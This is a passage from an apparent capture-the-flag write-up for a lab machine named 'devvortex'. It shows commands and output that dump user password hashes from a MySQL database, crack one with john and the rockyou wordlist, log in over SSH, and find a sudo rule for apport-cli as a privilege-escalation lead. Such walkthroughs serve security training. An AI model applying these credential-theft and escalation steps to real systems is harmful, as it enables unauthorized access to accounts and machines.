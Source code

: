 ```bash
...
| sd4fg_user_keys               |
| sd4fg_user_mfa                |
| sd4fg_user_notes              |
| sd4fg_user_profiles           |
| sd4fg_user_usergroup_map      |
| sd4fg_usergroups              |
| sd4fg_users                   |
...

mysql> select username, password from sd4fg_users; 
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+----------+--------------------------------------------------------------+
```

Found password hash for `logan`.

```bash
$ john logan_hash --wordlist=/usr/share/wordlists/rockyou.txt
...
tequieromucho    (?)  
Session completed. 
```

Cracked `logan` hash with `john`. SSH login with `logan` credentials.

```bash
$ ssh logan@10.10.11.242
logan@10.10.11.242's password: 
...
logan@devvortex:~$ 
```

# Privilege Escalation

Check what privileges does `logan` have.

```bash
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

`logan` has the privilege to run `sudo` for `/usr/bin/apport-cli`.
